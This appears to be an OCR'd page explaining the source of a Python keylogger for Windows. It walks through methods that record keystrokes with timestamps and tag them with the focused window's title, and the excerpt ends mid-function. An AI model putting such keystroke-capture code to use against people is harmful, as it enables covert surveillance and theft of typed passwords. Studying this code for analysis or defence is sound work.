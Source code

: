 The `get_window_name` method is used to get the name of the window that currently has focus. This method uses the `win32gui` module to get the handle of the foreground window and then gets the text associated with that window handle. This text is the name of the `window` and is returned by the method. This method is called whenever a key is pressed, and is used to update the window attribute with the name of the current window. This allows the keylogger to keep track of which window the key presses are happening in and to log the window name along with the key presses.

```python
# This method returns the name of the window that currently has focus
    def get_window_name(self):
        w = win32gui
        return w.GetWindowText(w.GetForegroundWindow())
    # This method logs a key press and adds the appropriate character to the string attribute
```
The `onpress` method is a member of the `Keylogger` class and is used to log a key press to the `string` attribute. This method is called whenever a key is pressed on the keyboard, and is passed the `key` object as an argument. The `onpress` method first creates a timestamp for the current time and checks if the name of the current window is different from the previously recorded window. If it is, it updates the `window` attribute with the current window name and adds a new entry to the log string with the window name and timestamp. Next, the method defines a dictionary of key mappings for special keys that don't have a character representation, such as the numeric keypad keys. If the `key` object has a 'vk' attribute, it is a special key, and the method looks up its mapped value in the key_mappings dictionary and adds it to the `string` attribute. Otherwise, it adds the character representation of the key to the `string` attribute. If the `key` object doesn't have a character representation, the method handles some special cases manually, such as the space key and the enter key. Finally, the method catches any exceptions that may be thrown and adds '??' to the `string` attribute if an exception occurs.

```python
def onpress(self, key):
       # Create a timestamp for the current time
        timestamp = datetime.timestamp(datetime.now())
        # If the name of the current window is different from the previously recorded window,
        # update the name of the current window and add a new entry to the log string with the
        # window name and timestamp
        if self.window != self.get_window_name():
            self.window = self.get_window_name()
            self.string += "\n[ " + self.window + \
                " (" + datetime.fromtimestamp(timestamp).strftime("%m/%d/%Y, %Hh%Mm%Ss") + ")]\n"

        # Define a dictionary of key mappings for special keys that don't have a character representation
        key_mappings = {
            96: "0",
            97: "1",
            98: "2",
            99: "3",
            100: "4",
            101: "5",
            102: "6",
            103: "7",
            104: "8",
            105: "9",
            106: "*",
            107: "+",
            109: "-",
            110: "."
        }

        try:
            # If the key has a 'vk' attribute, it is a special key with no character representation,
            # so we look up its mapped value in the key_mappings dictionary
            if hasattr(key, 'vk') and 96 <= key.vk <= 110:
                self.string += key_mappings.get(key.vk, key.char)
```